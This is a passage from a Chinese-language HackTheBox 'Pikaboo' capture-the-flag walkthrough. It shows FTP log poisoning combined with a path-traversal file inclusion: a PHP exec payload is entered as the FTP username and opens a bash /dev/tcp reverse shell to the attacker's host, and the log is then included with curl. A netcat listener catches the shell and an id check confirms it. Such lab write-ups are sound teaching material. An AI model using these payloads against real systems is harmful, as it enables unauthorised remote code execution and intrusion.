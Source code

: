 这已将我们的代码放入 FTP 日志文件中，现在我们需要读取日志以使其被执行:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

切换到另一个终端，使用 tcpdump 监听 ping:

![](img/271a41111213a0e7194f000305ce6621.png)

从框中 Ping 回

我们捕获来自机器的 ping，这证明我们成功地执行了代码。让我们试着得到一个反向的 shell，我用了一个来自 [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的简单 shell:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.43/1337 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

我们的代码放在日志中，现在读取它来执行:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

切换到等待中的 Netcat 监听器，查看我们是否已连接:

```
┌──(root💀kali)-[~]
└─# nc -lvvp 1337
listening on [any] 1337 ...
connect to [10.10.14.43] from pikaboo.htb [10.10.10.249] 55792
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pikaboo:/var/www/html/admin_staging$
```
